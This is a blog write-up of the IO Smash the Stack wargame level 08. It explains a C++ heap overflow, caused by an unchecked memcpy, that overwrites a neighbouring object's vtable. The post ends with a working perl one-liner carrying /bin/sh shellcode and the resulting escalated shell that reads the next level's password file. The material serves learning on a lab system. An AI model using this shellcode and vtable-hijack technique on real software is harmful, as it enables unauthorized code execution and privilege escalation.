 ```yaml
---
author: alvaro
comments: true
layout: post
title: Level 08 I/O Smash the Stack
categories:
- Archive
tags:
- security
---
```


Finally I got some time to write. I am going to try to summarize the process which I have had to pass to resolve the smash's level08.

The code for this exercise is the following.

```C++
 // writen by bla for io.smashthestack.org
#include <iostream>
#include <cstring>
#include <unistd.h>

class Number
{
        public:
                Number(int x) : number(x) {}
                void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));}
                virtual int operator+(Number &r) {return number + r.number;}
        private:
                char annotation[100];
                int number;
};


int main(int argc, char **argv)
{
        if(argc < 2) _exit(1);

        Number *x = new Number(5);
        Number *y = new Number(6);
        Number &five = *x, &six = *y;

        five.setAnnotation(argv[1]);

        return six + five;
}
 
```

It is clear how the use of `memcpy` is insecure due to there is not sanitation on the argv[1] so we can write beyond the capacity of the member variable `annotation`.

To see if this fact is exploitable we need to figure out how is the layout of the class on memory. C++ classes are very similar with C’s structs. That means that the layout would be.

```
AAAAAAAAAAAAAAAAAAAANNNN

where:
A -> bytes of annotation
N -> bytes of number

```

But in this case we have an extra pointer which is normally known as `vtable`. So the layout would be as follows.

```
PPPPAAAAAAAAAAAANNNN
where:
P-> pointer of vtable
A-> bytes of annotation
N-> bytes of number
```

What is the goal of vtable in C++? This can be viewed as dynamic binding since is the way C++ resolve calls when the inheritances come out. The following [example](http://phrack.org/issues/56/8.html)  try to explain the concept.

```C++
#include <stdio.h>
#include <string.h>

class BaseClass
{
    private:
        char buffer[32];
    public:
        void SetBuffer(char *String)
        {
            strcpy(Buffer,String);
        }
        virtual void PrintBuffer()
        {
            printf(“%s\n”,Buffer);
        }
};

class MyClass1:public BaseClass
{
    public:
        void PrintBuffer()
        {
            printf(“MyClass1: “);
            BaseClass::PrintBuffer();
        }
};

class MyClass2:public BaseClass
{
    public:
        void PrintBuffer()
        {
            printf(“MyClass2: “);
            BaseClass::PrintBuffer();
        }
};

void main()
{
    BaseClass *Object[2];

    Object[0] = new MyClass1;
    Object[1] = new MyClass2; 

    Object[0]->SetBuffer(“string1”);
    Object[1]->SetBuffer(“string2”);
    Object[0]->PrintBuffer();
    Object[1]->PrintBuffer();
}

$ ./example
MyClass1: string1
MyClass2: string2
```

What’s going on here? Thanks to vtable the runtime can resolve which method should call. Vtable how we have said before has been created to support dynamic binding or dynamic dispatch. It is an array of functions. This functions will be set at runtime to point to the correct function to be called. That is why the Object[0] knows that when it needs to call the member function `PrintBuffer`, it must call the MyClass1’s function instead of BaseClass’s. The same happens with Object[1].

If in somehow we can overwrite the vtable we can hijack the flow of our program to execute arbitrary code. That is the problem of the code that we showed at the beginning. 

When we call `setAnnotation` on `five`, which is a reference to `x`, we are able to write beyond its space since we are using memcpy without sanitation. We overwrite `six` memory space, since it is after the five’s memory; with the consequence to overwrite vtable. After that, when the statement `return six + five` is called, that in reality is called `return six.operator+(five)`, the runtime look through the `vtable` to know the correct function to call. This is when the buffer overflow; that happens on the heap since the classes are created using `new`, can be exploited.

If we use gdb we can see the layout of the memory.

![level8-1](/public/images/level8-1.png)

We have to write our shellcode in `annotation` and then rewrite the six’s vtable to redirect it to our shellcode. Finally to exploit this we need to execute the following.

```bash
/levels/level08 `perl -e ‘print “\x10\xa0\x04\x08\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80”,”A”x56,”\x0c\xa0\x04\x08”’`

sh-4.2$ id
uid=1008(level8) gid=1008(level8) euid=1009(level9) groups=1009(level9),1008(level8),1029(nosu)
sh-4.2$ cat /home/level9/.pass
XXXXXXXXXXX
``` 

Write a shellcode is a difficult task in which I have to go deeper. This exercise has been very helpful to understand the danger of vtable on C++ and how the classes are represented in memory. We must be careful when we develop software since you never know where the danger resides.


{% include twitter_plug.html %}
